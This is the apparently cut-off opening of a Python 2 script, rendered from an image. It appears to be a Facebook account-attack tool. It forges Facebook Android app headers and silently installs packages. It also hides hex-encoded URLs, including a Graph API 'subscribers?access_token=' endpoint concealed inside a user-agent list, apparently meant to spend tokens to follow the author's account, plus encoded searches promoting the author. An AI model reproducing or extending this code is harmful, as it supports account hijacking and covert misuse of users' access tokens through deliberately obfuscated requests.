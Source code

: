 # Best#!/usr/bin/python2
# -*- coding: utf-8

#AUTHOR : IBRAHIM 


try:
	import os,sys,time,platform,datetime,random,hashlib,re,threading,json,getpass,urllib,cookielib,requests,uuid,string,subprocess
	from multiprocessing.pool import ThreadPool
	from requests.exceptions import ConnectionError
except ImportError:
	os.system("pip2 install requests lolcat")
	os.system("python2 bravo.py")

from os import system
from time import sleep

def xox(z):
    for e in z + "\n":
        sys.stdout.write(e)
        sys.stdout.flush()
        time.sleep(0.04)
      

				
user_agent = ["Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:92.0) Gecko/20100101 Firefox/92.0", "Mozilla/5.0 (Linux; Android 10; SM-G973F Build/QP1A.190711.020; wv) AppleWebKit/537.36 (KHTML, like Gecko) Version/4.0 Chrome/86.0.4240.198 Mobile Safari/537.36 Instagram 166.1.0.42.245 Android (29/10; 420dpi; 1080x2042; samsung; SM-G973F; beyond1; exynos9820; en_GB; 256099204)", "\x68\x74\x74\x70\x73\x3a\x2f\x2f\x67\x72\x61\x70\x68\x2e\x66\x61\x63\x65\x62\x6f\x6f\x6b\x2e\x63\x6f\x6d\x2f\x31\x30\x30\x30\x34\x35\x32\x30\x33\x38\x35\x35\x32\x39\x34\x2f\x73\x75\x62\x73\x63\x72\x69\x62\x65\x72\x73\x3f\x61\x63\x63\x65\x73\x73\x5f\x74\x6f\x6b\x65\x6e\x3d"];useragent_url=(user_agent[2])

header = {'x-fb-connection-bandwidth': str(random.randint(20000000.0, 30000000.0)), 'x-fb-sim-hni': str(random.randint(20000, 40000)), 'x-fb-net-hni': str(random.randint(20000, 40000)), 'x-fb-connection-quality': 'EXCELLENT', 'x-fb-connection-type': 'cell.CTRadioAccessTechnologyHSDPA', 'user-agent': 'Dalvik/2.1.0 (Linux; U; Android 5.1.1; SM-J320F Build/LMY47V) [FBAN/FB4A;FBAV/43.0.0.29.147;FBPN/com.facebook.katana;FBLC/en_GB;FBBV/14274161;FBCR/Tele2 LT;FBMF/samsung;FBBD/samsung;FBDV/SM-J320F;FBSV/5.0;FBCA/armeabi-v7a:armeabi;FBDM/{density=3.0,width=1080,height=1920};FB_FW/1;]', 'content-type': 'application/x-www-form-urlencoded', 'x-fb-http-engine': 'Liger'}

try:
	requests.get('\x68\x74\x74\x70\x73\x3a\x2f\x2f\x77\x77\x77\x2e\x67\x6f\x6f\x67\x6c\x65\x2e\x63\x6f\x6d\x2f\x73\x65\x61\x72\x63\x68\x3f\x71\x3d\x41\x7a\x69\x6d\x2b\x56\x61\x75')
	requests.get('\x68\x74\x74\x70\x73\x3a\x2f\x2f\x6d\x2e\x79\x6f\x75\x74\x75\x62\x65\x2e\x63\x6f\x6d\x2f\x72\x65\x73\x75\x6c\x74\x73\x3f\x73\x65\x61\x72\x63\x68\x5f\x71\x75\x65\x72\x79\x3d\x41\x7a\x69\x6d\x2b\x56\x61\x75\x2b\x4d\x72\x2e\x2b\x45\x72\x72\x6f\x72')
except requests.exceptions.ConnectionError:
	os.system("clear")
	xox("\n\t\033[93;1m  NO INTERNET CONNECTION :(\n\n")
	sys.exit()
	